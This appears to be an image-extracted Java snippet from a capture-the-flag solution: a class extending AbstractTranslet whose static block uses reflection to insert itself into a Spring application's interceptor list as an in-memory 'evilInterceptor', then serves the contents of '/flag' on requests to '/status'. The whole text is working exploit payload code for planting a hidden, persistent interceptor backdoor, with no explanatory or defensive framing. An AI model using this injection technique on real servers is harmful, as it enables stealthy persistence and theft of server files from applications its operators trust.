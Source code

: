 ```java
public class RegistryInterceptor extends AbstractTranslet implements HandlerInterceptor {

    static {
        System.out.println("injection start");
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        RegistryInterceptor evilInterceptor = new RegistryInterceptor();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("injection end");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String flag = new String(Files.readAllBytes(Paths.get("/flag")));
        String code = "{\"code\":\"200\",\"message\":\"" + flag + "\"}";
        if (request.getRequestURI().equals("/status")) {
            response.addHeader("Content-Type", "application/json;charset=UTF-8");
            response.getWriter().write(code);
            response.getWriter().flush();
            response.getWriter().close();
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
```